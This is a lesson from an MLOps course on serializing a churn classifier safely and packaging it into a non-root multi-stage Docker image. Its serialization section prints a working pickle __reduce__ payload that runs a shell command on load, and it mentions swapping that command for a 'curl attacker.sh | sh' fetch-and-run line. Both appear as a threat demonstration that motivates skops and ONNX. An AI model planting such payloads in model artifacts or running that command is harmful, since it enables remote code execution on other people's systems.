


[🏠 🚢 Course home](index.html)  &nbsp;|&nbsp;  [← Lesson 04](lesson04.html)  &nbsp;|&nbsp;  [Lesson 06 →](lesson06.html)  &nbsp;|&nbsp;  [📚 All mini-courses](../../mini-courses.html)

------------------------------------------------------------------------

# Lesson 5 — Packaging the model: from pickle to a production Docker image

In the previous lesson you pushed the churn classifier into the MLflow **Model Registry** and gave it a version, a stage, and a lineage back to the exact run that trained it. That solved *"which model?"* But a registered model is still just a blob of weights sitting in a store — it can't answer an HTTP request, it doesn't know its own dependencies, and it certainly won't run the same way on your laptop and on a production node. In this lesson we close that gap. We take the exact artifact from the registry and wrap it, plus its runtime, into a single immutable unit that runs identically anywhere: a **Docker image**.

But before we containerize anything, we have to confront a question most tutorials skip: *how* is the model even saved? The default answer — `pickle` — is a loaded gun pointed at your production cluster. So we start with serialization, pick a format that won't get you paged for an RCE, then write a scoring entry point, then build a lean, non-root, layer-cached image around it, and finally decide the one architectural question that will haunt every ML service you ever ship: do you **bake the model into the image** or **pull it from the registry at startup**?

::: {.callout-note appearance="simple"}
🎯 **In this lesson you will:** understand why `pickle` is a security liability and serialize the model safely with `skops` and `ONNX`, write a self-contained scoring script that loads the registry artifact, author a production-grade multi-stage Dockerfile (slim base, layer caching, non-root user), build and run the container locally, and reason through the bake-in vs. pull-at-startup trade-off.
:::

## Serialization: what "saving the model" actually risks

When scikit-learn "saves" your pipeline, it doesn't write weights to a neutral file format the way a JPEG stores pixels. It **pickles** the Python object graph — a stream of bytecode-like opcodes that *reconstruct* the object by importing modules and calling functions on load. That is the whole danger: unpickling is not reading data, it is **executing a program embedded in the file**.

Here is the exploit in eight lines. Do not run this against anything you care about — read it and internalize the threat model.

```python
# pickle_is_code_execution.py  —  DO NOT deploy anything that unpickles untrusted data
import pickle, os

class Exploit:
    def __reduce__(self):
        # __reduce__ tells pickle how to "rebuild" this object.
        # Whatever we return here runs at load time, in your process.
        return (os.system, ("echo PWNED > /tmp/proof.txt",))

payload = pickle.dumps(Exploit())      # looks like an innocent model file
pickle.loads(payload)                  # <-- runs os.system on the victim
```

`pickle.loads` sees the `__reduce__` protocol, calls `os.system(...)`, and your "model file" just executed a shell command with the privileges of the serving process. Swap the `echo` for `curl attacker.sh | sh` and a model artifact pulled from a compromised registry, an S3 bucket with loose ACLs, or a poisoned Hugging Face repo becomes remote code execution on your inference tier.

The takeaway is not "never use pickle" — MLflow, joblib, and most of the ecosystem lean on it. The takeaway is a rule: **only unpickle artifacts your own pipeline produced and stored in a trust boundary you control.** For anything crossing a trust boundary, use a format that separates *data* from *code*.



### skops: sklearn without the code-execution footgun

`skops` was built by the scikit-learn maintainers precisely for this. It serializes estimators to a format that, on load, checks every type against an **allow-list of known-safe scikit-learn and numpy classes**. Anything unexpected — an `os.system`, a custom `__reduce__` — raises instead of executing.

```python
# save_skops.py  —  serialize the Lesson-2 pipeline safely
import skops.io as sio
from train import build_pipeline, load_data   # from Lesson 2

X_train, y_train, *_ = load_data()
pipe = build_pipeline().fit(X_train, y_train)  # ColumnTransformer + GradientBoosting

# Dump to the skops container format (not pickle under the hood).
sio.dump(pipe, "churn_model.skops")
```

Loading is where the safety shows up. You do **not** blindly trust the file — you inspect it first:

```python
# load_skops.py
import skops.io as sio

# 1. Discover any types NOT on the built-in allow-list.
unknown = sio.get_untrusted_types(file="churn_model.skops")
print("Types needing review:", unknown)
# e.g. [] for a plain sklearn pipeline, or
#      ['xgboost.sklearn.XGBClassifier'] if you used XGBoost

# 2. Load, explicitly trusting ONLY the types you've reviewed.
model = sio.load("churn_model.skops", trusted=unknown)  # pass [] to trust nothing extra
```

If `get_untrusted_types` returns a class you don't recognize, that is your signal to stop and audit the file before loading — the exact review step that plain `pickle.load` never gives you.

### ONNX: freeze the math, drop the Python

`skops` still assumes a Python + scikit-learn runtime. **ONNX** (Open Neural Network Exchange) goes further: it exports the model as a static **computation graph** — a list of tensor operations — with *no executable code at all*. Loading an ONNX file can't run shell commands because there is nothing to run; a runtime just walks the graph. As a bonus, that graph runs in C++, Rust, C#, or JavaScript, so your Python-trained churn model can serve from a Go microservice or a browser.

```python
# to_onnx.py  —  convert the fitted sklearn pipeline to a computation graph
from skl2onnx import to_onnx
import numpy as np

# ONNX needs to know the input signature: name, dtype, and shape.
# None on axis 0 = dynamic batch size (score 1 row or 10 000).
X_sample = X_train.iloc[:1].to_numpy().astype(np.float32)
onx = to_onnx(pipe, X_sample, target_opset=17)

with open("churn_model.onnx", "wb") as f:
    f.write(onx.SerializeToString())
```

And inference through `onnxruntime` — notice there is no `sklearn` import at serving time at all:

```python
# predict_onnx.py
import onnxruntime as ort
import numpy as np

sess = ort.InferenceSession("churn_model.onnx", providers=["CPUExecutionProvider"])
input_name = sess.get_inputs()[0].name

def predict(rows: np.ndarray) -> np.ndarray:
    rows = rows.astype(np.float32)
    # Returns [labels, probabilities]; index 1 is the proba dict/array.
    label, proba = sess.run(None, {input_name: rows})
    return label, proba

print(predict(X_sample))
# -> (array([0]), [{0: 0.87, 1: 0.13}])   # churn probability 0.13
```

| Format | Loads code? | Runtime needed | Cross-language | Best for |
|--------|:-----------:|----------------|:--------------:|----------|
| `pickle` / `joblib` | ⚠️ Yes | Exact Python + libs | No | Internal, trusted artifacts only |
| `skops` | Guarded | Python + sklearn | No | Shareable sklearn models |
| `ONNX` | No | `onnxruntime` (any lang) | Yes | Production serving, edge, polyglot |

For the rest of this course we serve the **sklearn pipeline via MLflow's `pyfunc`** (which uses cloudpickle internally, inside our trust boundary) because it preserves preprocessing and matches Lesson 6's FastAPI wiring — but you now know the safer options and exactly when to reach for them.

## The scoring script: one clean entry point

Before Docker enters the picture, the container needs *something to run*. That something is a scoring script that loads the model **once** at process start (never per request — loading is expensive) and exposes a `predict` function. Keeping this logic in its own module means Lesson 6's FastAPI layer and this lesson's CLI smoke test both call the same code path.

```python
# score.py  —  loads the registry model once, scores rows
import os
import mlflow.pyfunc
import pandas as pd

# Where the model lives is configuration, not code. Two modes:
#   - MODEL_URI="models:/churn-classifier/Production"  -> pull from registry
#   - MODEL_URI="/models/churn"                        -> baked-in local path
MODEL_URI = os.environ["MODEL_URI"]

# Loaded at import time = once per process, before the first request.
_model = mlflow.pyfunc.load_model(MODEL_URI)

FEATURES = ["tenure", "monthly_charges", "total_charges",
            "contract", "payment_method", "num_services"]

def predict(records: list[dict]) -> list[dict]:
    """Score a batch of customer records. Returns churn probabilities."""
    df = pd.DataFrame(records, columns=FEATURES)   # column order matters!
    proba = _model.predict(df)                     # pyfunc handles preprocessing
    return [{"churn_probability": float(p)} for p in proba]

if __name__ == "__main__":
    # A smoke test the Docker HEALTHCHECK and CI can both call.
    sample = [{"tenure": 2, "monthly_charges": 89.1, "total_charges": 178.2,
               "contract": "Month-to-month", "payment_method": "Electronic check",
               "num_services": 3}]
    print(predict(sample))
```

Two design decisions carry their weight in gold later. First, **`MODEL_URI` is an environment variable**, not a hardcoded string — that single indirection is what lets the *same image* either bake the model or pull it, which we exploit at the end of the lesson. Second, the `__main__` block is a **runnable self-check**: `python score.py` scores one row and prints a probability. If the model didn't load or the feature schema drifted, it fails loudly, right there — and Docker's `HEALTHCHECK` can call the same path.

## A production Dockerfile for ML

Now the container. A naive ML Dockerfile — `FROM python:3.12`, `COPY . .`, `pip install -r requirements.txt` — technically works and is technically a liability: a 1.2 GB image, a fresh dependency reinstall on every code change, and a process running as **root**. We'll fix all three with a **multi-stage build**.

The core idea: use one "builder" stage with the full toolchain to compile and install dependencies into a virtual environment, then copy *only that finished venv* into a clean slim runtime stage. Compilers, caches, and build cruft never reach the final image.

```dockerfile
# Dockerfile  —  multi-stage, slim, layer-cached, non-root

# ---------- Stage 1: builder ----------
FROM python:3.12-slim AS builder

# Build-time system deps (compilers for any C-extension wheels).
RUN apt-get update && apt-get install -y --no-install-recommends gcc \
    && rm -rf /var/lib/apt/lists/*

# Create an isolated venv we can copy wholesale into the runtime stage.
RUN python -m venv /opt/venv
ENV PATH="/opt/venv/bin:$PATH"

# *** Layer-caching move: copy ONLY requirements first. ***
# This layer is rebuilt only when requirements.txt changes,
# not every time you edit score.py.
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt

# ---------- Stage 2: runtime ----------
FROM python:3.12-slim AS runtime

# Copy the finished venv from the builder. No gcc, no pip cache, no apt lists.
COPY --from=builder /opt/venv /opt/venv
ENV PATH="/opt/venv/bin:$PATH" \
    PYTHONUNBUFFERED=1 \
    PYTHONDONTWRITEBYTECODE=1

# Create and switch to a non-root user. If the model file is ever malicious,
# it runs with no ability to touch the host or escalate.
RUN useradd --create-home --uid 1000 appuser
WORKDIR /app

# Copy application code LAST — the layer that changes most often, so
# everything above it stays cached across code edits.
COPY --chown=appuser:appuser score.py .

USER appuser

# Config with sane default; override at `docker run` time.
ENV MODEL_URI="models:/churn-classifier/Production"

# Fail the container if the model can't score a row.
HEALTHCHECK --interval=30s --timeout=10s --retries=3 \
    CMD python score.py || exit 1

CMD ["python", "score.py"]
```

Three principles are doing the heavy lifting here, and they map onto the layer stack below.

**Layer caching by order.** Docker caches each instruction as a layer and reuses it until an input to that layer changes. Because `requirements.txt` is copied and installed *before* `score.py`, editing your scoring code — the thing you touch ten times an hour — does **not** invalidate the dependency install layer. Your rebuilds drop from minutes to seconds.

**Slim base + multi-stage = small attack surface.** `python:3.12-slim` is ~150 MB versus ~1 GB for the full `python:3.12`. Multi-stage then discards the compiler and pip caches entirely. Fewer packages means fewer CVEs to patch.

**Non-root by default.** `USER appuser` means that even in the RCE scenario from the top of the lesson, the exploit lands in an unprivileged account with no write access to the host — defense in depth around a serialization format you may not fully control.

<svg viewBox="0 0 620 300" xmlns="http://www.w3.org/2000/svg" role="img" aria-label="Docker image layer stack showing which layers rebuild on a code change">
  <style>
    .lbl { font: 13px sans-serif; fill: currentColor; }
    .sub { font: 11px sans-serif; fill: currentColor; opacity: 0.7; }
    .cap { font: 12px sans-serif; fill: currentColor; font-weight: bold; }
  </style>
  <!-- Left: full stack -->
  <text x="20" y="24" class="cap">Image layers (bottom = base)</text>
  <rect x="20" y="250" width="260" height="34" rx="4" fill="#38bdf8" fill-opacity="0.25" stroke="currentColor"/>
  <text x="32" y="271" class="lbl">python:3.12-slim base</text>
  <rect x="20" y="210" width="260" height="34" rx="4" fill="#22c55e" fill-opacity="0.25" stroke="currentColor"/>
  <text x="32" y="231" class="lbl">venv from builder (deps)</text>
  <rect x="20" y="170" width="260" height="34" rx="4" fill="#22c55e" fill-opacity="0.25" stroke="currentColor"/>
  <text x="32" y="191" class="lbl">non-root user + env</text>
  <rect x="20" y="130" width="260" height="34" rx="4" fill="#f59e0b" fill-opacity="0.30" stroke="currentColor"/>
  <text x="32" y="151" class="lbl">COPY score.py  ← changes often</text>
  <!-- cached bracket -->
  <line x1="292" y1="172" x2="292" y2="282" stroke="#22c55e" stroke-width="3"/>
  <text x="300" y="215" class="sub">CACHED —</text>
  <text x="300" y="230" class="sub">reused on</text>
  <text x="300" y="245" class="sub">code edits</text>
  <line x1="292" y1="132" x2="292" y2="162" stroke="#f59e0b" stroke-width="3"/>
  <text x="300" y="150" class="sub">REBUILT</text>
  <!-- Right: what happens on edit -->
  <text x="410" y="24" class="cap">Edit score.py →</text>
  <text x="410" y="50" class="sub">Only the top layer</text>
  <text x="410" y="66" class="sub">is rebuilt. Deps,</text>
  <text x="410" y="82" class="sub">base, and user</text>
  <text x="410" y="98" class="sub">layers are reused</text>
  <text x="410" y="114" class="sub">from cache.</text>
  <rect x="410" y="130" width="180" height="40" rx="6" fill="#6366f1" fill-opacity="0.25" stroke="currentColor"/>
  <text x="424" y="155" class="lbl">rebuild ≈ seconds</text>
</svg>

The matching `requirements.txt` pins everything for reproducibility (Lesson 2's discipline, now baked into the image):

```text
# requirements.txt
mlflow==2.16.2
scikit-learn==1.5.2
pandas==2.2.3
onnxruntime==1.19.2
skops==0.11.0
```

## Build it, run it, prove it works

With the model exported to a local directory (`mlflow.pyfunc` format) so we can bake it in for now:

```bash
# 1. Build. The tag encodes the model version — treat images as immutable.
docker build -t churn-model:v4 .

# 2. Run the built-in smoke test (CMD is `python score.py`).
#    MODEL_URI points at the baked-in path.
docker run --rm \
  -v "$(pwd)/exported_model:/models/churn:ro" \
  -e MODEL_URI="/models/churn" \
  churn-model:v4
# -> [{'churn_probability': 0.134}]

# 3. Inspect the final image size — should be a few hundred MB, not a gig.
docker images churn-model:v4 --format "{{.Size}}"
# -> 412MB
```

The `-v ... :ro` mounts the exported model read-only, and `-e MODEL_URI=...` overrides the default — the same knobs Lesson 6 uses to point the FastAPI container at the registry. If step 2 prints a probability, your image is a self-contained, runnable unit of the model. That is the deliverable for today: **the scoring code is containerized.**

## The one architectural decision: bake in vs. pull at startup

Everything so far quietly assumed the model lives *inside* the image. That is one of two legitimate strategies, and choosing between them is the decision that shapes your whole serving architecture. This is a judgment call — there is no universally right answer, so weigh it against your own constraints.



**Bake the model in** when reproducibility and startup reliability dominate: the image tag `churn-model:v4` pins *both* the code and the exact weights, so a rollback is `docker run ...:v3` with zero ambiguity. The container boots with no network call, which means it survives a registry outage and works in air-gapped environments. The cost: every new model version means a new image build, and images grow with model size.

**Pull from the registry at startup** when you want one image to serve many model versions and to swap them without a rebuild — just change `MODEL_URI` and restart. Images stay tiny. The cost is real, though: the registry becomes a **hard startup dependency** (if it's down, your pods can't come up), cold starts get slower and less predictable, and — the subtle one — *"which model is running?"* is no longer answerable from the image tag alone; it's runtime state you have to log and monitor (foreshadowing Lesson 9).

The pull pattern needs a tiny entrypoint that fetches before serving:

```bash
#!/usr/bin/env bash
# entrypoint.sh  —  for the pull-at-startup image variant
set -euo pipefail

# Download the registry model to a local dir before the app starts.
# Fails fast (set -e) if the registry is unreachable — better than
# a half-started server that 500s on the first request.
python -c "import mlflow; mlflow.artifacts.download_artifacts('${MODEL_URI}', dst_path='/models/churn')"
export MODEL_URI="/models/churn"

exec python score.py   # exec = score.py becomes PID 1, gets signals cleanly
```

A pragmatic default: **bake in for the immutable, reproducible artifact** (it plays perfectly with Lesson 4's registry versioning and Lesson 8's CI/CD, where "new model → build → tag → deploy" is one clean pipeline), and reach for pull-at-startup only when your model is large or you genuinely need to hot-swap versions across a fleet without rebuilds. Note that `exec` in the entrypoint matters — it makes your Python process PID 1 so `docker stop`'s SIGTERM reaches it directly, giving clean shutdowns instead of a 10-second kill timeout.

## 🧪 Your task

Add a **read-only self-check** to `score.py` and wire it into the Docker `HEALTHCHECK` so the container reports *unhealthy* if the model's output ever drifts outside a valid probability range — a cheap guard against a corrupted or wrong-schema artifact silently serving garbage.

Concretely: write a function `health() -> bool` in `score.py` that scores a fixed canary record and returns `True` only if the result is a single float in `[0.0, 1.0]`. Make `python score.py --health` exit `0` when healthy and `1` when not, and update the Dockerfile `HEALTHCHECK` to call it.

**Hint:** you already load `_model` at import time, so `health()` just needs to call `predict(...)` on one hardcoded record and validate the shape and range of the output. Use `sys.argv` (or `argparse`) to branch on the `--health` flag, and `sys.exit(0 if ok else 1)` so Docker reads the exit code.

<details><summary>Solution</summary>

```python
# score.py  (additions)
import sys

CANARY = [{"tenure": 12, "monthly_charges": 70.0, "total_charges": 840.0,
           "contract": "One year", "payment_method": "Credit card",
           "num_services": 4}]

def health() -> bool:
    """Score a fixed canary row; pass only if output is a valid probability."""
    try:
        out = predict(CANARY)
    except Exception as e:                      # model failed to score at all
        print(f"health: predict raised {e}", file=sys.stderr)
        return False

    if len(out) != 1:                           # wrong batch shape
        print(f"health: expected 1 result, got {len(out)}", file=sys.stderr)
        return False

    p = out[0]["churn_probability"]
    if not isinstance(p, float) or not (0.0 <= p <= 1.0):
        print(f"health: probability out of range: {p}", file=sys.stderr)
        return False

    return True

if __name__ == "__main__":
    if "--health" in sys.argv:
        ok = health()
        print("healthy" if ok else "UNHEALTHY")
        sys.exit(0 if ok else 1)                # Docker reads this exit code
    # default: original smoke test
    print(predict(CANARY))
```

```dockerfile
# Dockerfile  (updated HEALTHCHECK)
HEALTHCHECK --interval=30s --timeout=10s --retries=3 \
    CMD python score.py --health || exit 1
```

Verify it locally:

```bash
docker build -t churn-model:v4 .
docker run --rm -v "$(pwd)/exported_model:/models/churn:ro" \
  -e MODEL_URI="/models/churn" churn-model:v4 python score.py --health
# -> healthy   (exit 0)

# After ~30s a running container shows its status:
docker ps --format "{{.Names}}: {{.Status}}"
# -> churn: Up 45 seconds (healthy)
```

The key insight: the healthcheck reuses the *exact same load-and-predict path* as real serving, so it catches a broken artifact, a missing dependency, or a schema mismatch **before** the orchestrator routes live traffic to the container.

</details>

## Key takeaways

- **`pickle`/`joblib` execute code on load** — safe *only* inside your own trust boundary. Use `skops` (allow-listed sklearn) for shareable artifacts and `ONNX` (pure computation graph, no code, cross-language) for polyglot or edge serving.
- **Put loading logic in one scoring module** that loads the model once at process start and reads its location from an env var (`MODEL_URI`) — that indirection is what lets one image both bake in *and* pull.
- **Multi-stage + slim base + copy-requirements-first + non-root** gives you small images, second-scale rebuilds via layer caching, and a minimal attack surface. Order layers from least- to most-frequently-changed.
- **Bake-in vs. pull-at-startup is the core trade-off:** bake in for immutable, reproducible, network-independent artifacts (default, pairs with the registry); pull at startup only when you need small images and hot-swappable versions — at the cost of a registry startup dependency and runtime version ambiguity.
- **A `HEALTHCHECK` that reuses the real predict path** catches broken artifacts before traffic arrives.

In the next lesson — **Lesson 6: Serving with FastAPI** — we give this container an HTTP face: request/response schemas with Pydantic, async endpoints, batching, and the `/predict` and `/health` routes that turn our image into a real online inference service.

------------------------------------------------------------------------

[🏠 🚢 Course home](index.html)  &nbsp;|&nbsp;  [← Lesson 04](lesson04.html)  &nbsp;|&nbsp;  [Lesson 06 →](lesson06.html)  &nbsp;|&nbsp;  [📚 All mini-courses](../../mini-courses.html)
